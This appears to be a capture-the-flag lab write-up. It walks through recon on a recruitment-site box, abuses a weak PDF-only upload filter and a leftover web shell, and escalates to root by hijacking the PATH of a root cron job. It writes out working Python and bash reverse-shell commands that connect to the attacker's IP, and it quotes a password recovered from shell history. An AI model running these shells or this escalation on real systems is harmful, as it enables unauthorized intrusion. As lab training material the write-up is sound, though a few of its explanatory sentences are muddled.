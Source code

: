 # Recon

## Nmap

``` 
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9f:a6:01:53:92:3a:1d:ba:d7:18:18:5c:0d:8e:92:2c (RSA)
|   256 4b:60:dc:fb:92:a8:6f:fc:74:53:64:c1:8c:bd:de:7c (ECDSA)
|_  256 83:d4:9c:d0:90:36:ce:83:f7:c7:53:30:28:df:c3:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: RecruitSec: Industry Leading Infosec Recruitment
|_http-server-header: Apache/2.4.41 (Ubuntu) 


```



## Gobuster

``` 
/images               (Status: 301) [Size: 315] [--> http://10.10.249.192/images/] (images)
/css                  (Status: 301) [Size: 312] [--> http://10.10.249.192/css/]   (css)
/cvs                  (Status: 301) [Size: 312] [--> http://10.10.249.192/cvs/]   
/dist                 (Status: 301) [Size: 313] [--> http://10.10.249.192/dist/] (css and images)
``` 
## Nikto
``` 
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
``` 
# Upload Image

If we try to upload a php reverse shell we go to upload.php and we get the message:

"Hacked! If you dont want me to upload my shell, do better at filtering!" 

So the vulnerability might be in the filtering


- Content-type: image/jpeg (Not work)
- extension .php5 (not work)

We found that in the upload.php we have a comment with what is like the source code for the filtering for the cvs:
```
 seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) { #first occurence GG
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) { # check if file exists
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}
```

https://stackoverflow.com/questions/37008227/what-is-the-difference-between-name-and-tmp-name
Since we can do a directory transversal attack because we can insert: ../css/shell.jpg.php because it uses basename which removes all the paths and only takes shell.jpg.png.
We cant upload another shell. Since the hint says that the hackers might have left something behind and since the only filter that the previous application had is that the first occurence can only be .pdf we can search for shell.pdf.php or something to see if the attackers leaved the shell behind.

And in fact they did, when we search cvs/shell.pdf.php we get 
```
boom!
```


Doing some basic PHP enumeration we found that is vulnerable to php injection using the parameter cmd: 
```
http://10.10.249.192/cvs/shell.pdf.php?cmd=whoami
```
So we open the python server and upload our shell to the system: 
```
http://10.10.249.42/cvs/shell.pdf.php?cmd=python3%20-c%20%27import%20socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.9.0.149%22,4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(%22/bin/sh%22)%27
```

# Elevate privilege

```
$ cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

- bash_history gave us the password thisistheway123 for the use lachlan.

```
$ cat backup.sh
# todo: pita website backup as requested by her majesty

$ cat persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done

$ find / -perm /4000 2>/dev/null
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/bin/fusermount
/usr/bin/su
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/mount
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/at

```

- As we can see in the cron pkill does not have the full path and the PATH begins with /home/lachlan/bin so the first place that the cron will try to find the pkill executable is there.
- We create a a script withe same name with a reverse shell inside.

```
su lachlan
touch /home/lachlan/bin/pkill
echo "#!/bin/bash\nbash -c 'exec bash -i &>/dev/tcp/10.9.0.149/5555 <&1'" > pkill

```





